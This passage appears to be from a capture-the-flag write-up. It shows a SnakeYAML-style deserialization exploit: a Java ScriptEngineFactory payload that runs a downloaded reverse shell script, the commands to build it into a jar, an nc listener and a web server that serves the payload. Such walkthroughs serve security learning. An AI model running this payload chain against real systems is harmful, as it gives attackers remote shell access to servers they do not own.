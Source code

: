 With our reverse shell code being on the target we only have to execute it in a second step. We do this by simply calling `bash` on the file we downloaded earlier. First we modify the source code again.

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("bash /tmp/revsh.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
...[snip]...
```

Recompile ...

```php
$ javac src/artsploit/AwesomeScriptEngineFactory.java
$ jar -cvf yaml-payload.jar -C src/ .
added manifest
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1478) (out= 389)(deflated 73%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1605) (out= 666)(deflated 58%)
```

Set up a listener this time on the specified port to catch our reverse shell and also set up our webserver again to serve the payload.

```php
$nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

```php
$sudo python3  -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
